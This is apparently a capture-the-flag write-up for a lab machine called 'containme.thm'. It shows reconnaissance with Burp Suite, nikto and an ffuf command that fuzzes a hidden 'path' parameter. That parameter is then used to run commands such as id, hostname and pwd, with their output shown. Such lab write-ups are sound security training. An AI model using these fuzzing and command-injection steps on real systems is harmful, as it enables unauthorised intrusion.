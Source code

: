 <img width="1128" height="223" alt="image" src="https://github.com/user-attachments/assets/c6a6a353-9a91-451e-af56-9e46bdd979ca" />

<br>
<br>
<h2 align="center">info.php</h2>
<p align="center">containme.thm/info.php<br>PHP Version, VARS and much more</em></p>

<img width="1127" height="733" alt="image" src="https://github.com/user-attachments/assets/69c2e8cf-c9fa-441b-a788-f42a9f2e8008" />

<br>
<br>

<h2 align="center">index.php</h2>
<p align="center">containme.thm/index.php<br>directory listing<br>Identified<em>--  where is the <code>path</code> ?  --</em> in Burp Suite<br>recalled nikto´s output<br></p>

<img width="1128" height="223" alt="Screenshot 2025-09-26 191541" src="https://github.com/user-attachments/assets/00949f40-7b7b-415e-8ac5-b5a44ea3db5b" />

<br>
<br>
<h2 align="center"><code>path</code></h2>

```bash

:~/Containme# ffuf -u http://containme.thm/index.php/?FUZZ=/l -w-w /usr/share/dirb/wordlists/common.txt -fs 100-203
...
path                           [Status: 200, Size: 1240, Words: 328, Lines: 34]
```

<h2 align="center">Command Execution</h2>
<p align="center">containme.thm/index.php?<code>path</code>=/</p>

<img width="1125" height="402" alt="image" src="https://github.com/user-attachments/assets/0c066125-375d-4f12-814c-4fc51e14ff4b" />

<br>
<br>
<h2 align="center">hostname</h2>
<p align="center">containme.thm/index.php?<code>path</code>=/hostname<br>host1</p>

<img width="1130" height="299" alt="Screenshot 2025-09-26 194828" src="https://github.com/user-attachments/assets/e756f61a-294b-4896-a8c0-aae361368bdf" />

<br>
<br>
<h2 align="center">id</h2>
<p align="center">containme.thm/index.php?<code>path</code>=/id<br>uid=33(www-data) gid=33(www-data) groups=33(www-data)</p>

<img width="1125" height="229" alt="image" src="https://github.com/user-attachments/assets/d6f98967-76a9-4587-b9b4-6bdb8bf31a78" />

<br>
<br>
<h2 align="center">pwd</h2>
<p align="center">containme.thm/index.php?<code>path</code>=/pwd<br>/var/www/html</p>
